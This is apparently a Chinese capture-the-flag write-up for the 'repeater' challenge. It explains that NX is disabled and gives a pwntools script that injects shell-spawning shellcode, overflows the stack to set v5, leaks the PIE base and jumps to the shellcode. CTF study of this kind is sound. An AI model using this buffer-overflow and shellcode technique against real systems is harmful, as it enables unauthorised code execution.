


# repeater【攻防世界】

这里使用简单的shellcode攻击手法

因此我们这里使用shellcode的原因之一就是他没有开启nx保护因此我们这里使用这个方法因此我们产看一下保护



这里我们看到没有使用到nx保护因此我们要使用到shellcode所以我们在这里查看ida反编译的程序



这里我们查找到他会写入一个的数据是一个非常大的一个空间数据因此我们这里可以直接使用生成shellcode的方法来进行一个攻击

并且这里我们要知道main的一个地址有来计算pie的值因此我们要把v5改成对应的数据因此我们要进行一个栈溢出来覆盖v5

并且进行要给shell的要给跳转是的我们可以跳转到shell对应的数据位置中使得我们完成攻击

```py
from pwn import *
context.log_level = True
context.arch = 'amd64'
io = process('/home/fofa/repeater')
# io = remote("61.147.171.105", 54674)
# 构造shellcode
shellcode = asm(shellcraft.sh())
io.sendlineafter("Please give me your name :", shellcode)
# 修改v5 = 3281697
payload = b'A'*0x20 + p64(0x321321)  # 0x321321:3281697
io.sendlineafter("input :", payload)
io.recvuntil("0x")
bass = int(io.recv(12),16)-0xa33

payload = b"a"*0x38+p64(bass+0x202040)
info("bass:"+hex(bass))
gdb.attach(io)
io.sendlineafter("input :", payload)

# gdb.attach(io)

io.interactive()

```

